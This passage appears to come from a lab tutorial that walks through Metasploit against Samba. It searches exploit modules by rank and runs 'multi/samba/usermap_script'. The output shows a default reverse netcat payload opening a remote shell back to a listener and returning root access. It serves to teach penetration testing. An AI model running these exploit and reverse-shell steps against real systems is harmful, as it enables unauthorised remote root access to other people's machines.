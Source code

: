     Sort our results by "rank" (how well they work/reliable the exploits are) using `-s rank`:

    ```
    search name:samba type:exploit platform:linux platform:unix description:3. description:4. -s rank
    ```

    Reverse the results with `-r`:

        search name:samba type:exploit platform:linux platform:unix description:3. description:4. -s rank -r

*   Then, notice the message at the bottom of the search results about how we can interact with them by index:

    ```
    sf6 exploit(multi/samba/usermap_script) > search name:samba type:exploit platform:linux platform:unix description:3. description:4. -s rank -r

    Matching Modules
    ================

    #  Name                                     Disclosure Date  Rank       Check  Description
    -  ----                                     ---------------  ----       -----  -----------
    0  exploit/multi/samba/usermap_script       2007-05-14       excellent  No     Samba "username map script" Command Execution
    1  exploit/linux/samba/is_known_pipename    2017-03-24       excellent  Yes    Samba is_known_pipename() Arbitrary Module Load
    2  exploit/linux/samba/lsa_transnames_heap  2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    3  exploit/linux/samba/chain_reply          2010-06-16       good       No     Samba chain_reply Memory Corruption (Linux x86)


    Interact with a module by name or index. For example info 3, use 3 or use exploit/linux/samba/chain_reply
    ```

    Let's try that, using `use 0` to start with the 0'th first (that's the `multi/samba/usermap_script` exploit), followed by `run`:

    ```
    msf6 > use 0
    [*] No payload configured, defaulting to cmd/unix/reverse_netcat
    msf6 exploit(multi/samba/usermap_script) > run

    [*] Started reverse TCP handler on 10.128.0.24:4444
    [*] Command shell session 1 opened (10.128.0.24:4444 -> 192.168.121.160:60134) at 2021-10-20 17:31:02 -0400

    id
    uid=0(root) gid=0(root)
    ```

    Worked on the first try! The others might also work too, but we'll stop here in this example.
